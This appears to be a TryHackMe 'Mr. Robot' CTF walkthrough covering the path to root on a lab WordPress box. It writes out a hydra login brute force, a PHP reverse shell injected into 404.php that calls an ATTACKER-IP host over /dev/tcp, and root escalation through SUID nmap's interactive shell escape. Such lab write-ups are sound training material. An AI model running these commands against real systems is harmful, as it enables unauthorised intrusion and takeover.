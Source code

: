 
# 🖥️ TryHackMe: Mr. Robot CTF – Walkthrough  
**Difficulty:** Medium  
**Category:** Capture the Flag (CTF)  
**Platform:** TryHackMe  
**Objective:** Capture all 3 keys by exploiting a vulnerable WordPress site modeled after the Mr. Robot TV show.

---

## 🧩 Challenge Overview

This CTF simulates a real-world scenario where an attacker must:

1. Enumerate a target web application for vulnerabilities
2. Gain access to the WordPress backend through brute force
3. Upload or inject a malicious reverse shell
4. Escalate privileges to access protected files and ultimately gain root access

---

## 🗝️ Flag Summary

| Key        | Status | Flag (Redacted)            |
|------------|--------|----------------------------|
| Key 1 of 3 | ✅     | `REDACTED-FLAG-1`           |
| Key 2 of 3 | ✅     | `REDACTED-FLAG-2`           |
| Key 3 of 3 | ✅     | `REDACTED-FLAG-3`           |

---

## 🔍 Reconnaissance

### 🔎 Port Scanning (Nmap)

```bash
nmap -sC -sV -p- -oN scans/nmap.txt robot.thm
````

| Port | Service | Description       |
| ---- | ------- | ----------------- |
| 22   | SSH     | Closed            |
| 80   | HTTP    | Apache web server |
| 443  | HTTPS   | Apache over SSL   |

---

### 📂 Directory Bruteforcing (Gobuster)

```bash
gobuster dir -u http://robot.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -o scans/gobuster.txt
```

Discovered endpoints:

* `/robots.txt` – Includes two valuable file paths:

  * `/fsocity.dic` – Wordlist for brute forcing
  * `/key-1-of-3.txt` – First flag
* `/wp-login.php` – WordPress login portal
* `/wp-content/`, `/wp-admin/` – Confirm WordPress is used

---

## 🔐 Gaining Access

### 🧹 Wordlist Deduplication

The dictionary contained many duplicates. Clean it up:

```bash
sort -u fsocity.dic > fsocity-uniq.txt
```

---

### 🔓 Brute Force WordPress Login (Hydra)

Guessed the user `elliot` based on show context. Used `hydra` to brute-force login:

```bash
hydra -l elliot -P fsocity-uniq.txt robot.thm http-post-form \
"/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=The password you entered" \
-o scans/hydra-login.txt
```

**Result:** Valid credentials discovered (REDACTED)

---

## 🧪 Exploitation

### 🧭 WordPress Dashboard

After logging in, the dashboard allowed editing of theme files:

> *Appearance → Editor → 404.php*

This provides a vector to inject a PHP reverse shell payload.

---

### 🐚 Reverse Shell Payload Injection

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER-IP/PORT 0>&1'");
?>
```

Steps:

1. Inserted payload into `404.php`
2. Started a netcat listener:

   ```bash
   nc -lvnp 4444
   ```
3. Triggered the shell by visiting a non-existent page:

   ```
   http://robot.thm/nonexistentpage
   ```

✅ Shell received as user: `daemon`

---

## 🧗 Privilege Escalation

### 📦 Discovering User Secrets

Navigated to:

```bash
cd /home/robot
```

Found:

* `key-2-of-3.txt` – Not accessible by `daemon`
* `password.raw-md5` – Contains an MD5 hash

### 🔐 Hash Cracking

Cracked the MD5 hash offline (tool used: `hashcat`, `crackstation.net`, or `john`).

Used cracked password to escalate via:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
su robot
# Password: REDACTED
```

✅ Now user: `robot`

Read second key:

```bash
cat key-2-of-3.txt
```

---

### ⚙️ Root Privilege Escalation via Nmap

SUID binary found:

```bash
find / -perm -4000 2>/dev/null | grep nmap
```

Output:

```
/usr/local/bin/nmap
```

This version allowed interactive mode:

```bash
nmap --interactive
```

Escalated via shell escape:

```bash
nmap> !sh
```

✅ Now root!

```bash
cd /root
cat key-3-of-3.txt
```

---

## 🧠 Key Learnings

* **WordPress Enumeration:** `/robots.txt` and directory fuzzing were key
* **Credential Discovery:** Public wordlist paired with a known username led to a successful brute-force
* **Theme Injection:** Editing `404.php` enabled reliable reverse shell execution
* **Privilege Escalation:** Old versions of `nmap` with SUID can be weaponized via `--interactive`
* **OpSec Reflection:** This CTF mirrors real-world misconfigurations in outdated CMS installs

---


---

## 📚 References

* [TryHackMe - Mr. Robot](https://tryhackme.com/room/mrrobot)
* [GTFOBins - nmap](https://gtfobins.github.io/gtfobins/nmap/)
* [CrackStation - Password Hash Cracker](https://crackstation.net)


## AI usage
Notes chatGPT 4o used for editing notes and parsing source code. The rest of the work is my own.
